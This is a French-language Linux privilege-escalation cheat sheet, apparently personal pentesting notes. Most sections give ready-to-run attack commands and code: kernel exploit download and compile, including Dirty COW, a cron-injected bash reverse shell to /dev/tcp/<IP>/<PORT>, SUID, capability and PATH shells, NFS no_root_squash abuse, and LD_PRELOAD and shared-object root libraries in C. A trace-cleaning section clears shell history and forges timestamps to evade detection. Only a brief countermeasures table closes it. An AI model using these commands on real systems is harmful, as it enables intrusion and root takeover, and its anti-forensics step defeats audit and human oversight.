

## Kernel Exploits

### Objectif
Exploiter une vulnérabilité du noyau **Linux** pour obtenir un accès **root** via un exploit local.

### Informations sur le noyau
```bash
uname -a
cat /etc/lsb-release
```

### Téléchargement et compilation
```bash
wget http://<IP>/kernel_exploit.c -O exploit.c
gcc exploit.c -o kernel_exploit && chmod +x kernel_exploit
```

### Exécution
```bash
./kernel_exploit
```

> [!danger] Risque de crash système
> L'exploitation de failles **Kernel** peut provoquer une instabilité majeure ou un kernel panic.

### Exemple : Dirty COW (CVE-2016-5195)
```bash
wget https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c -O dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty
```

---

## Analyse des capacités (Capabilities)

### Objectif
Identifier les privilèges spécifiques accordés aux binaires (au-delà du simple SUID) permettant une élévation.

### Identification
```bash
getcap -r / 2>/dev/null
```

### Exploitation (Exemple avec perl)
Si `cap_setuid+ep` est présent sur un binaire, il peut modifier son UID.
```bash
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```
*Note : Se référer à **GTFOBins** pour les binaires spécifiques possédant des capacités exploitables.*

---

## Exploitation des tâches planifiées (Cron jobs)

### Objectif
Détourner un script exécuté par **root** via **cron** pour injecter du code malveillant.

### Identification
```bash
cat /etc/crontab
ls -la /etc/cron.*
```

### Exploitation
Si un script est modifiable par l'utilisateur courant :
```bash
echo "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" >> /chemin/vers/script.sh
```
*Note : Voir **Reverse Shell** pour les payloads de connexion.*

---

## Analyse des fichiers SUID/SGID globaux

### Objectif
Rechercher des binaires avec le bit SUID actif appartenant à **root** pour obtenir un shell privilégié.

### Identification
```bash
find / -perm -u=s -type f 2>/dev/null
```

### Exploitation
Vérifier les binaires trouvés sur **GTFOBins**. Exemple avec `find` :
```bash
find . -exec /bin/sh -p \; -quit
```

---

## Exploitation des services mal configurés (NFS, PATH)

### Objectif
Exploiter des mauvaises configurations système, notamment les exports **NFS** avec `no_root_squash` ou des variables **PATH** mal définies.

### NFS (no_root_squash)
Si un dossier est exporté avec `no_root_squash`, le client peut créer des fichiers SUID.
```bash
# Sur la machine cible
showmount -e <IP>
# Sur la machine attaquante
mount -o rw,vers=2 <IP>:/tmp /mnt/nfs
cp /bin/bash /mnt/nfs/shell && chmod +s /mnt/nfs/shell
```

### PATH Hijacking
Si un binaire SUID appelle une commande sans chemin absolu :
```bash
echo "/bin/bash" > /tmp/ls
chmod +x /tmp/ls
export PATH=/tmp:$PATH
./binaire_suid
```

---

## LD_PRELOAD Hijacking

### Objectif
Exploiter une mauvaise configuration de **sudo** et de la variable **LD_PRELOAD** pour charger une bibliothèque malveillante.

### Identification
```bash
ldd /chemin/vers/binaire
sudo -l
```

> [!info] Importance de la variable LD_PRELOAD
> Si **env_keep+=LD_PRELOAD** est présent dans **sudoers**, le binaire peut être détourné.

### Création de la bibliothèque
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

### Compilation et exécution
```bash
gcc -fPIC -shared -o /tmp/root.so root.c -nostartfiles
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```

---

## Shared Object Hijacking

### Objectif
Exploiter une configuration **RUNPATH** vulnérable pour injecter une bibliothèque dans un binaire **SETUID**.

### Identification
```bash
readelf -d <binaire> | grep PATH
ls -ld /chemin/dossier/runpath
```

> [!tip] Vérification des permissions
> Le dossier cible doit être accessible en écriture pour l'utilisateur actuel.

### Création et compilation
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void __attribute__((constructor)) init() {
    setuid(0);
    system("/bin/sh -p");
}
```

```bash
gcc -fPIC -shared -o /chemin/libshared.so src.c
```

---

## Python Library Hijacking

### Objectif
Exploiter l'ordre de priorité des imports dans **sys.path** ou la variable **PYTHONPATH**.

### Identification
```bash
python3 -c 'import sys; print("\n".join(sys.path))'
pip3 show <module>
```

> [!warning] Priorité des chemins
> L'interpréteur **Python** charge les modules selon l'ordre défini dans **sys.path**. Un dossier **world-writable** situé avant le dossier système permet l'injection.

### Exploitation via PYTHONPATH
```bash
sudo PYTHONPATH=/tmp /usr/bin/python3 ./script.py
```

---

## Nettoyage de traces

### Objectif
Supprimer les preuves de l'exploitation pour maintenir la persistance et éviter la détection.

### Actions recommandées
```bash
# Supprimer les fichiers temporaires
rm /tmp/root.so /tmp/exploit.c /tmp/payload

# Effacer l'historique bash
history -c
unset HISTFILE

# Restaurer les timestamps (si nécessaire)
touch -r /etc/shadow /tmp/modified_file
```

---

## Contremesures

| Vecteur | Action corrective |
| :--- | :--- |
| **Kernel** | Mise à jour régulière du noyau et isolation des services |
| **LD_PRELOAD** | Supprimer **LD_PRELOAD** de **env_keep** dans **sudoers** |
| **Shared Object** | Utiliser **rpath=$ORIGIN** et restreindre les droits d'écriture |
| **Python** | Interdire l'écriture dans les dossiers de **sys.path** |
| **Capabilities** | Auditer les capacités inutiles avec `getcap` |
| **Cron** | Restreindre les droits d'écriture sur les scripts cron |
| **SUID** | Supprimer le bit SUID des binaires non essentiels |

*Note : Pour approfondir l'énumération, consulter la note **Enumeration** et **Linux Privilege Escalation**.*